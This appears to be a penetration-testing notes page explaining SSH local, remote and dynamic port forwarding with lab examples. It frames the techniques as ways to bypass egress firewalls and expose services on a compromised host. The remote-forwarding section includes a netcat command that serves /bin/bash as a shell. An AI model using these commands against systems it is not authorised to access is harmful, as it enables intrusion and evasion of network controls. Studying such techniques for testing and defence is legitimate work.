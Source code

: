 ```yaml
---
description: Exploring SSH tunneling
---
```


# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation. \
\
For example, if you have a host that you want to access, but the egress firewall won't allow it, do this:

```csharp
ssh -L 127.0.0.1:9999:REMOTE_HOST:PORT user@SSH_SERVER
```

You can now sent traffic to 127.0.0.1:9999 on your localhost and that traffic will flow through the SSH\_SERVER __ to __ REMOTE\_HOST:PORT.&#x20;

Let's see with a real example.

#### On machine 10.0.0.5

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

The above says: bind on a local port 9999 (on a host 10.0.0.5). Listen for any traffic coming to that port 9999 (i.e 127.0.0.1:9999 or 10.0.0.5:9999) and forward it all that to the port 4444 on host 10.0.0.12:

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins:

![](../../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port (bound to localhost) so that it can be reached from outside through the SSH tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:4444 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSHSERVER will be forwarded to the port 4444 on the LOCALHOST - the host that runs the service that is only accessible from inside that host. In other words, service on port 4444 on LOCALHOST will now be exposed through the SSHSERVER's port 5555.

Let's see an example.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 (not reachable to hosts from outside) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, gets forwarded to a service listening on localhost:4444 on to this box (10.0.0.12).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back to me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}

